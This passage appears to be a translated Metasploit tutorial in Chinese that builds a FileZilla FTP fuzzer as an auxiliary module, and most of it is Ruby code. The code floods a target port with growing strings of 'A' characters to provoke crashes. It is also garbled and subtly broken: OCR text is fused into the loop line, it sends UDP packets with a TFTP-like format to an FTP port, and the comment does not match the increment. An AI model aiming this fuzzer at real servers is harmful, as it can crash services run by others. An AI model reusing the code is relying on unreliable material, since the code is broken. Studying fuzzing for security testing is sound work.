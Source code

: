 我们在上一个示例中分析了 fuzzer 模块的工作原理。让我们通过构建我们自己的小型 FTP fuzzer 来进一步深入了解 FileZilla FTP 服务器。

## 如何做...

构建 fuzzer 的基本模板将类似于我们讨论过的用于开发辅助模块的模板。因此，我们的基本模板应如下所示：

```
require 'msf/core'
class Metasploit3 < Msf::Auxiliary
include Msf::Auxiliary::Scanner
def initialize
super(
'Name' => 'FileZilla Fuzzer',
'Version' => '$Revision: 1 $',
'Description' => 'Filezilla FTP fuzzer',
'Author' => 'Abhinav_singh',
'License' => MSF_LICENSE
)
register_options( [
Opt::RPORT(14147),
OptInt.new('STEPSIZE', [ false, "Increase string size each iteration with this number of chars",10]),
OptInt.new('DELAY', [ false, "Delay between connections",0.5]),
OptInt.new('STARTSIZE', [ false, "Fuzzing string startsize",10]),
OptInt.new('ENDSIZE', [ false, "Fuzzing string endsize",20000])
], self.class)
end

```

因此，我们已经导入了 MSF 库，创建了一个类，并定义了我们的选项。下一步将是定义 fuzzer 的主体。

```
def run_host(ip)
udp_sock = Rex::Socket::Udp.create(
'Context' =>
{
'Msf' => framework,
'MsfExploit' => self,
}
)
startsize = datastore['STARTSIZE'] # fuzz data size to begin with
count = datastore['STEPSIZE'] # Set count increment
simple FileZilla FTP fuzzerwritingwhile count < 10000 # While the count is under 10000 run
evil = "A" * count # Set a number of "A"s equal to count
pkt = "\x00\x02" + "\x41" + "\x00" + evil + "\x00" # Define the payload
udp_sock.sendto(pkt, ip, datastore['RPORT']) # Send the packet
print_status("Sending: #{evil}")
resp = udp_sock.get(1) # Capture the response
count += 100 # Increase count by 10, and loop
end
end
end 
```
